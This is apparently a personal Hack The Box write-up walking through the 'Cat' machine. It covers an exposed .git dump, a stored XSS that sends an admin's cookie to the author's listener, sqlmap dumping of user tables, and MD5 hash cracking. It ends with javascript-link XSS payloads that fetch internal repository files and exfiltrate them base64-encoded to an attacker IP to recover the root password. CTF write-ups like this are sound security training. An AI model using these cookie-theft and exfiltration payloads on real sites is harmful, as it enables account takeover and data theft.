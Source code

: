```yaml
---
title: Cat - HTB
date: 2025-05-02 14:00:00 +0200
categories: [Hack The Box, Linux0] 
tags: [Linux, priv-escalation, initial access, cat , XSS] 
toc: true
comments: true
image: ./assets/img/attachments/cat.png
imageNameKey: cat
---
```

In this writeup, I’ll be walking through the **Cat** machine from [Hack The Box](https://hackthebox.com), which is rated **Medium** in difficulty. This is the **fifth machine** I’m tackling as part of my journey to reach **1000 points**, and I’m documenting each step to reinforce my learning and help others in the community. The machine involves a mix of enumeration, web exploitation, and privilege escalation.
So lets start!
# Port Enumeration

I will start with scanning the most common ports
```bash
nmap -Pn -sV -F 10.10.11.53 -sC      
```
```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 11:56 EDT
Nmap scan report for 10.10.11.53
Host is up (0.36s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://cat.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

I'll perform full port enumeration while taking a closer look at the HTTP service.
```bash
 sudo nmap -sS -Pn -p- 10.10.11.53 -A -n -T5
```
Got nothing new beyond what I found earlier.
## Content Discovery
```bash
ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 3

ffuf -u http://cat.htb/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/raft-small-files.txt -e /.git/ -mc all -fc 404

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-1.png)

As we can see, the `.git` repository is present — let's check if it's accessible.
```bash
curl -s http://cat.htb/.git/HEAD
curl -s http://cat.htb/.git/config
curl -s http://cat.htb/.git/index
curl -s http://cat.htb/.git/logs/HEAD

```
```bash
ref: refs/heads/master
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
0000000000000000000000000000000000000000 8c2c2701eb4e3c9a42162cfb7b681b6166287fd5 Axel <axel2017@gmail.com> 1725146774 +0000       commit (initial): Cat v1
```
Now we will get those files using git_dumper.py
```bash
python3 git_dumper.py http://cat.htb/.git/ ./cat-source
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-2.png)

We got all application codes, so lets analyze them to find vulnerable injection point

# Gaining Access
![Whatever Alt Text You Want](/assets/img/attachments/cat-3.png)

Those are the parameters that are reflected in the page, and only **admins** can view them (at view_cat.php)

![Whatever Alt Text You Want](/assets/img/attachments/cat-4.png)

At contest.php: 4 parameters out pf five are filtered, but username doesn't

![Whatever Alt Text You Want](/assets/img/attachments/cat-5.png)

And here at join.php we can see that username is added without any checks or validations on the input and also we knew the hashing algorithm used for passwords (md5)
But since username isn't reflected for me and just at view_cat.php I will make admin trigger stored XSS to steal his cookies
```bash
python -m http.server 
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-12.png)

```
<script>
new Image().src = 'https://10.10.16.87/?c=' + document.cookie;
</script>
```

![Whatever Alt Text You Want](/assets/img/attachments/cat-8.png)
I add a cat and waited

![Whatever Alt Text You Want](/assets/img/attachments/cat-9.png)
I got admin cookie

![Whatever Alt Text You Want](/assets/img/attachments/cat-10.png)

Now we can see admin panel which is accept_cat.php

![Whatever Alt Text You Want](/assets/img/attachments/cat-11.png)

Which is vulnerable to SQLi, so i used sqlmap to dump all tables
```bash
sqlmap -u http://cat.htb/accept_cat.php --data="catId=1&catName=test" --cookie="PHPSESSID=admin php ssid" --level=5 --risk=3 --dbs -p catName --dbms=sqlite --tables --dump -T users --threads 9
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-13.png)
I couldn't crack axel password but was able to get rosa password
```bash
hashcat -m 0 -a 0 d1bbba3670feb9435c9841e46e60ee2f /usr/share/wordlists/rockyou.txt

```

![Whatever Alt Text You Want](/assets/img/attachments/cat-14.png)

I was able to connect to this user by ssh
![Whatever Alt Text You Want](/assets/img/attachments/cat-15.png)
using the same python server on my machine, I downloaded linpeas.sh on victim's machine.

![Whatever Alt Text You Want](/assets/img/attachments/cat-16.png)

After checking this one:
![Whatever Alt Text You Want](/assets/img/attachments/cat-17.png)

using this password i was able to increase my privileges
![Whatever Alt Text You Want](/assets/img/attachments/cat-18.png)
And we got user flag!
# Privilege Escalation
![Whatever Alt Text You Want](/assets/img/attachments/cat-19.png)

Lets check those ports
```bash
ssh -L 3000:127.0.0.1:3000 axel@cat.htb

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-20.png)

I found this website, and i logged in with axel's credentials, and the service version has exploits

![Whatever Alt Text You Want](/assets/img/attachments/cat-21.png)

```js
<a href="javascript:location.href='http://ip:8000?c='+document.cookie">XSS test</a>
```
But didn't work as the previous case where admin visits the page, something is missing

![Whatever Alt Text You Want](/assets/img/attachments/cat-22.png)
Lets check this one!
![Whatever Alt Text You Want](/assets/img/attachments/cat-23.png)

Mail must be sent to jobert, but we can see that this page doesn't have cookie header:
```js
<a href="javascript:alert(document.cookie)">Click me</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-24.png)

**You must upload any file on the created repo to procced!**
I wanted to validate that the admin views the repo as mentioned at the mail
```js
<a href="javascript:fetch('http://10.10.16.87:8000/?ping=1')">Test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-25.png)

And since  i couldn't access this page : http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md
```js
<a href="javascript:
fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md')
.then(r => r.text())
.then(d => fetch('http://ip:8000/?leak=' + btoa(d)))
">Click me</a>

```
![Whatever Alt Text You Want](/assets/img/attachments/cat-26.png)
nothing important here
```
# Employee Management
Site under construction. Authorized user: admin. No visibility or updates visible to employees.
```

I tried to get the content of the other files at this repo, couldn't list them, but after guessing (trial and error) i got the content of index.php
```js
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response=>response.text()).then(data=>fetch("http://10.10.16.87:8000/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```
![Whatever Alt Text You Want](/assets/img/attachments/cat-27.png)

![Whatever Alt Text You Want](/assets/img/attachments/cat-28.png)

I couldn't log in to administrator account with this password but it worked as root password!
![Whatever Alt Text You Want](/assets/img/attachments/cat-29.png)

**And done!**  
That was a tough one — definitely one of the more challenging tasks I've tackled. But every step was a learning opportunity, and I gained a lot of valuable insight along the way. Looking forward to applying these lessons in future challenges!